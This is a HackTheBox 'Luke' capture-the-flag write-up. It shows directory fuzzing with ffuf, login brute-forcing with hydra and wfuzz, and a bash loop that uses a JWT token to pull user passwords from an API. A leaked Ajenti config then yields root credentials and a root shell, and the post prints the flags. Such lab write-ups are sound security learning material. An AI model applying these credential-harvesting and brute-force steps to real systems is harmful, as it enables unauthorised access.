 ```yaml
---
title: "Luke - HackTheBox"
date: 2019-07-27T17:39:53+02:00
type: post
tags:
    - "HackTheBox"
    - "CTF"
---
```

![Information](/images/hackthebox/luke/info.png)

---
### Information gathering

Let's start with the usual information gathering steps:

![Port scan](/images/hackthebox/luke/nmap.png)

There's a FTP server on port 21, let's check what's on it:
![FTP](/images/hackthebox/luke/ftp.png)

In the webapp folder there's a txt file:
![Text file](/images/hackthebox/luke/txt.png)

Let's see what's on the web server on port 80:
![Web](/images/hackthebox/luke/web.png)

Navigating through the website and checking the sources we do not find anything
useful.

Let's run [ffuf](https://github.com/ffuf/ffuf) to search directories and files:
```
$ ffuf -w raft-large-directories.txt -r -u http://10.10.10.137/FUZZ 
$ ffuf -w raft-large-files.txt -r -u http://10.10.10.137/FUZZ 
```

I'm using two wordlists, one for directories and one for files. They both are
from the [SecLists](https://github.com/danielmiessler/SecLists) repository:
![Ffuf directories](/images/hackthebox/luke/ffuf.png)
![Ffuf files](/images/hackthebox/luke/ffuf2.png)

In the `/management` directory there's a login made with HTTP basic
authentication:
![Management](/images/hackthebox/luke/management.png)

In the `login.php` page there a login form:
![Login](/images/hackthebox/luke/login.png)

Trying [hydra](https://github.com/vanhauser-thc/thc-hydra) on all of them gives
us no results.

The `config.php` file contains something interesting:
![Config](/images/hackthebox/luke/config.php.png)

Let's check the web server on port 3000:
![NodeJS](/images/hackthebox/luke/nodejs.png)

Searching the error message on Google, we find that the token must be provided
in the `GET` request using the `X-Access-Token` header. Let's fire up Burp and
try:
![Token](/images/hackthebox/luke/token.png)

It's getting recognized, but, obviously, it's not a valid token. After a bit of
googling we find that to authenticate using JWT Tokens we must make a `POST`
request to a certain url with the username and password.

You can find an explanation about JWT [here](https://medium.com/swlh/a-practical-guide-for-jwt-authentication-using-nodejs-and-express-d48369e7e6d4).

Let's search any valid path on port 3000:
![Ffuf 3000](/images/hackthebox/luke/ffuf-3000.png)

Let's use wfuzz with the password found in `config.php` with a list of usernames
to try to get a token:
![Wfuzz JWT](/images/hackthebox/luke/wfuzz-jwt.png)

We see that the username admin gives us a `200` response code. Let's make the
request with `curl` to see the result:
![Token](/images/hackthebox/luke/curl-token.png)

Now we can use the token to authenticate by sending it in the `X-Access-Token`
header in our requests.

Let's try to use it to access the previous found directory:
![Users JWT](/images/hackthebox/luke/jwt-users.png)

By trying to do the same request to `/users/admin`, I got the admin password, so
because I like to automate things, I wrote a script that makes a request for
every user
```bash
#!/bin/bash

declare -a users=("admin" "derry" "yuri" "dory")

for user in "${users[@]}"; do
    curl -s -X GET -H "X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY0NTk2MTIyLCJleHAiOjE1NjQ2ODI1MjJ9.QKBqdc7fAcMY7dVB-ruizMdmcUNm3KheoX1kwSuB68k" http://10.10.10.137:3000/users/$user | jq
done
```
![Passwords JWT](/images/hackthebox/luke/jwt-passwords.png)

`jq` is used to beautify the `JSON`.

By trying the credentials in the logins founds previously, we get access to the
`/management` endpoint with the user Derry:
![Management login](/images/hackthebox/luke/management-login.png)

The only interesting file is `config.json`:
```json
{
    "users": {
        "root": {
            "configs": {
                "ajenti.plugins.notepad.notepad.Notepad": "{\"bookmarks\": [], \"root\": \"/\"}", 
                "ajenti.plugins.terminal.main.Terminals": "{\"shell\": \"sh -c $SHELL || sh\"}", 
                "ajenti.plugins.elements.ipmap.ElementsIPMapper": "{\"users\": {}}", 
                "ajenti.plugins.munin.client.MuninClient": "{\"username\": \"username\", \"prefix\": \"http://localhost:8080/munin\", \"password\": \"123\"}", 
                "ajenti.plugins.dashboard.dash.Dash": "{\"widgets\": [{\"index\": 0, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.MemoryWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.SwapWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.dashboard.welcome.WelcomeWidget\"}, {\"index\": 0, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.uptime.UptimeWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.power.power.PowerWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.cpu.CPUWidget\"}]}", 
                "ajenti.plugins.elements.shaper.main.Shaper": "{\"rules\": []}", 
                "ajenti.plugins.ajenti_org.main.AjentiOrgReporter": "{\"key\": null}", 
                "ajenti.plugins.logs.main.Logs": "{\"root\": \"/var/log\"}", 
                "ajenti.plugins.mysql.api.MySQLDB": "{\"password\": \"\", \"user\": \"root\", \"hostname\": \"localhost\"}", 
                "ajenti.plugins.fm.fm.FileManager": "{\"root\": \"/\"}", 
                "ajenti.plugins.tasks.manager.TaskManager": "{\"task_definitions\": []}", 
                "ajenti.users.UserManager": "{\"sync-provider\": \"\"}", 
                "ajenti.usersync.adsync.ActiveDirectorySyncProvider": "{\"domain\": \"DOMAIN\", \"password\": \"\", \"user\": \"Administrator\", \"base\": \"cn=Users,dc=DOMAIN\", \"address\": \"localhost\"}", 
                "ajenti.plugins.elements.usermgr.ElementsUserManager": "{\"groups\": []}", 
                "ajenti.plugins.elements.projects.main.ElementsProjectManager": "{\"projects\": \"KGxwMQou\\n\"}"
            }, 
            "password": "KpMasng6S5EtTy9Z", 
            "permissions": []
        }
    }, 
    "language": "", 
    "bind": {
        "host": "0.0.0.0", 
        "port": 8000
    }, 
    "enable_feedback": true, 
    "ssl": {
        "enable": false, 
        "certificate_path": ""
    }, 
    "authentication": true, 
    "installation_id": 12354
    }
```

We find the username and password (root:KpMasng6S5EtTy9Z) for the Ajenti panel
running on port `8000`. This is the administration panel:
![Ajenti](/images/hackthebox/luke/ajenti.png)

On the left, in the terminal section, we have access to a shell:
![Root](/images/hackthebox/luke/root.png)

To my surprise, this is a root shell, so during my workflow I must have skipped
some steps.

### User flag
```
58d441e500e8941f9cf3baa499e2e4da
```
### Root flag
```
8448343028fadde1e2a1b0a44d01e650
```

